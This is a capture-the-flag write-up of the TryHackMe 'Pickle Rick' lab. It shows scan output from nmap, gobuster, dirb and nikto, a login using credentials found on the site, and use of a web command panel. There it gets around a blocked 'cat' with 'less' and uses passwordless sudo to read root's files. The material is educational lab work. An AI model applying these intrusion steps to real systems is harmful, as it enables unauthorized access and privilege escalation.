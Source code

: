 ```yaml
---
Author: Michael Baumberger
title: Pickle Rick
parent: Try Hack Me Writeups
ancestor: IT Security
---
```


# Pickle Rick

# Task 1 | Pickle Rick

First we do a nmap scan:

```
nmap -sC -sV -p- 10.10.26.43
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-20 20:18 CET
Nmap scan report for 10.10.26.43
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2f:c1:a6:22:78:e6:f4:9e:8c:c4:7e:ff:6a:24:02:a9 (RSA)
|   256 d2:e1:3a:4e:e4:f0:29:50:f1:7c:a1:15:b6:78:ab:2e (ECDSA)
|_  256 ad:b2:a1:d9:bf:25:a6:82:67:39:51:34:ca:c3:48:a7 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

First we check out the website running on port 80 and start a gobuster scan:

```
gobuster dir --url http://10.10.26.43/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.26.43/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/20 20:29:17 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.10.26.43/assets/]

===============================================================
2021/12/20 20:43:09 Finished
===============================================================
```

And we also start a dirbuster scan:

```
dirb http://10.10.26.43

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Dec 20 20:48:16 2021
URL_BASE: http://10.10.26.43/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.26.43/ ----
==> DIRECTORY: http://10.10.26.43/assets/
[+] http://10.10.26.43/index.html (CODE:200|SIZE:1062)
[+] http://10.10.26.43/robots.txt (CODE:200|SIZE:17)
[+] http://10.10.26.43/server-status (CODE:403|SIZE:299)

---- Entering directory: http://10.10.26.43/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Mon Dec 20 20:52:40 2021
DOWNLOADED: 4612 - FOUND: 3
```

And also a nikto scan:

```
nikto -h 10.10.26.43
[-] Nikto v2.1.6
---------------------------------------------------------------------------
[+] Target IP:          10.10.26.43
[+] Target Hostname:    10.10.26.43
[+] Target Port:        80
[+] Start Time:         2021-12-20 20:55:49 (GMT1)
---------------------------------------------------------------------------
[+] Server: Apache/2.4.18 (Ubuntu)
[+] The anti-clickjacking X-Frame-Options header is not present.
[+] The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
[+] The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
[+] No CGI Directories found (use '-C all' to force check all possible dirs)
[+] Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
[+] Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
[+] Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
[+] Cookie PHPSESSID created without the httponly flag
[+] OSVDB-3233: /icons/README: Apache default file found.
[+] /login.php: Admin login page/section found.
[+] 7890 requests: 0 error(s) and 9 item(s) reported on remote host
[+] End Time:           2021-12-20 21:04:21 (GMT1) (512 seconds)
---------------------------------------------------------------------------
```

During the gobuster and dirbuster scan we can look at the web pages source code und see the note with the *Username 'R1ckRul3s'*.

We see the result */assets* in the gobuster scan so we look at this and see those files:

````
bootstrap.min.css	2019-02-10 16:37	119K	 
bootstrap.min.js	2019-02-10 16:37	37K	 
fail.gif	        2019-02-10 16:37	49K	 
jquery.min.js	    2019-02-10 16:37	85K	 
picklerick.gif	    2019-02-10 16:37	222K	 
portal.jpg	        2019-02-10 16:37	50K	 
rickandmorty.jpeg	2019-02-10 16:37	488K	 
````

We can download them but I dont think that they have anything special on it.
Now  the dirbuster scan is finished and we can look at the robots.txt:

````
Wubbalubbadubdub
````

Why?????? 
Ok I don't thing that helps us, so we check out the *'/login.php' page* from nikto and we see a login form.

We already found the username 'R1ckRul3s' in the 'index.html' code.
Now we can try some passwords and because of the suspicious content of the 'robots.txt' I tried it as password and it worked!!
we got redirected to the *page 'portal.php'*.
On the first look and test it looks like we have code execution or something. 
Lets try 'ls' and we see numerus of files and also the *file 'Sup3rS3cretPickl3Ingred.txt'* which we were searching for.

If we try to 'cat' the file 'Sup3rS3cretPickl3Ingred.txt' we get the message:

````
Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
````

Now we know there is some validation.
But it looks like the file is in the same directory as the webserver is serving out login.php and index.html, so we can try to call the file like that:

````
http://10.10.26.43/Sup3rS3cretPickl3Ingred.txt
````

Yes we can **read the file like this and get our first flag**.

We know that we have command execution so lets try to trick the validation. 
As example we can list the whole '/' directory with 'ls -la /'.
We can also see all home directories with 'ls -la /home' and the home folder of rick with 'ls -la /home/rick' and there we find the second ingredient.

Before we only tried to cat the file but we can try another tool and see if it is also blocked:

````shell
less /home/rick/'second ingredients'
````

It worked and we get **the second flag**.

We can think that the last flag will be in the roots home so '/root' but if we try to read that directory with 'ls -la /root' we dont get back anything.
With the command 'whoami' we see that we are only 'www-data' and this user normaly doesn't have permission to read the root's home folder.
We can *check what permissions we have with 'sudo -l'*:

````
Matching Defaults entries for www-data on ip-10-10-26-43.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-26-43.eu-west-1.compute.internal:
(ALL) NOPASSWD: ALL
````

As we see we can execute any command without supplying a password. So we can execute 'sudo ls -la /root' and we get a result this time:

````
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Dec 20 19:15 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
````

As we can see there is most likely our 3 flag in the file '3rd.txt' so lets read it:

````shell
sudo less /root/3rd.txt
````

And we get our **3rd flag**!